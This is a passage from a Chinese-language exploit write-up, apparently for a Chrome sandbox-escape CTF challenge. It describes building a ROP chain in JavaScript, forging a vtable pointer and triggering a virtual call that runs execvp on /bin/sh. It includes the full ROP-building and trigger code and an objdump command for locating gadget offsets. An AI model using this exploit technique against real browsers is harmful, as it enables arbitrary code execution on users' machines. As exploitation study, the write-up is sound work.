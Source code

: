 
最后构造`ROP`，伪造虚表指针，触发虚表函数。`ROP`这里的构造可以提一句的是，可以利用`execvp`函数来最终执行可执行程序，这样就不需要构造`rsi`以及`rdx`寄存器来，可以用命令`objdump -d -j '.plt' ./src/binary/chrome | grep execvp`来查看偏移。

```js
 // build rop chain
    let binshAddr = leakHeapAddr+0x68n;
    let ropBuffer = new ArrayBuffer(ropBufferSize);
    let ropData8 = new Uint8Array(ropBuffer).fill(0x41);
    ropDataView = new DataView(ropBuffer);

    // person getName's offset in vtable is 0x10;
    ropDataView.setBigInt64(0x10,xchgRaxRsp,true);

    ropDataView.setBigInt64(0x0, popRsi, true);
    ropDataView.setBigInt64(0x8, popRsi, true);

    ropDataView.setBigInt64(0x18, popRdi, true);
    ropDataView.setBigInt64(0x20, binshAddr, true);
    ropDataView.setBigInt64(0x28, popRsi, true);
    ropDataView.setBigInt64(0x30, 0n, true);
    ropDataView.setBigInt64(0x38, 0n, true);
    ropDataView.setBigInt64(0x40, popRdx, true);
    ropDataView.setBigInt64(0x48, 0n, true);
    ropDataView.setBigInt64(0x50, popRdx, true);
    ropDataView.setBigInt64(0x58, 0n, true);
    ropDataView.setBigInt64(0x60, execvp, true);
    ropDataView.setBigInt64(0x68,0x68732f6e69622fn,true);  // /bin/sh
    // ropDataView.setBigInt64(0x68, 0x6f6e672f6e69622fn,true);  // /bin/gno
    // ropDataView.setBigInt64(0x70, 0x75636c61632d656dn,true);  // me-calcu
    // ropDataView.setBigInt64(0x78, 0x726f74616cn,true);  // lator\x00

    let ropStr = arr2Str(ropData8);

    // set fake vtable here
    await triggerPersonPtr.setName(ropStr);

    // change triggerPersonPtr's vtable to fake vtable address
    evilData = setUint64(leakData, 0, leakHeapAddr);
    await evil.setName(evilData);

    //  trigger rop
    console.log((await triggerPersonPtr.getName()).name);
```

成功弹出计算器。
